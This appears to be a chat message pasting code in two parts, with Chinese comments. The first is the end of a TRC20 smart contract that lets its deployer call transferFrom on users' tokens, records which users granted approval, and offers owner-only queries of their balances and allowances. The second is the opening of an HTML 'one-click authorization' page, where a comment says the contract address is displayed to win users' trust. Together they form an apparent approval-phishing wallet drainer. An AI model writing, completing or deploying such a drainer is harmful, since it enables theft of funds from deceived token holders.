         targetToken.transferFrom(from, to, amount);
        emit DeployerNotification(from, to, amount, "Auto transfer executed");
        return true;
    }

    // 2. 查询单个用户的TRC20余额（无需记录，知道地址即可查）
    function getUserBalance(address user) external view returns (uint256) {
        return targetToken.balanceOf(user);
    }

    // 3. 查询单个用户给合约的授权额度（无需记录，知道地址即可查）
    function checkUserApproval(address user) external view returns (uint256) {
        return targetToken.allowance(user, address(this));
    }

    // 4. 批量查询：获取所有“已授权且触发记录”的用户地址（部署者可循环查询每个用户的授权/余额）
    function getAllAuthorizedUsers() external view onlyOwner returns (address[] memory) {
        return authorizedUsers;
    }

    // 5. 批量查询：获取授权用户总数
    function getAuthorizedUserCount() external view onlyOwner returns (uint256) {
        return authorizedUsers.length;
    }
}

唐艺, [2025/10/20 23:41]
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>TRC20一键授权</title>
    <style>
        * { margin: 0; padding: 0; box-sizing: border-box; font-family: Arial, sans-serif; }
        body { padding: 20px; background: #f5f7fa; }
        .auth-box { max-width: 500px; margin: 30px auto; padding: 30px; background: #fff; border-radius: 10px; box-shadow: 0 2px 10px rgba(0,0,0,0.08); text-align: center; }
        .title { font-size: 20px; color: #333; margin-bottom: 25px; }
        .addr-tip { font-size: 13px; color: #666; margin: 15px 0; word-break: break-all; }
        .auth-btn { width: 100%; padding: 14px; background: #2f54eb; color: #fff; border: none; border-radius: 8px; font-size: 16px; cursor: pointer; margin: 20px 0; }
        .auth-btn:disabled { background: #ccc; cursor: not-allowed; }
        .status { margin-top: 20px; padding: 12px; border-radius: 6px; font-size: 14px; }
        .success { background: #f0f9eb; color: #52c41a; }
        .error { background: #fff1f0; color: #f5222d; }
        .loading { background: #fffbe6; color: #faad14; }
    </style>
</head>
<body>
    <div class="auth-box">
        <h3 class="title">TRC20代币一键授权</h3>
        <!-- 部署者合约地址提示（用户可查看，增加信任） -->
        <div class="addr-tip">授权目标合约（部署者地址）：<br><span id="deployerContractAddr">加载中...</span></div>
        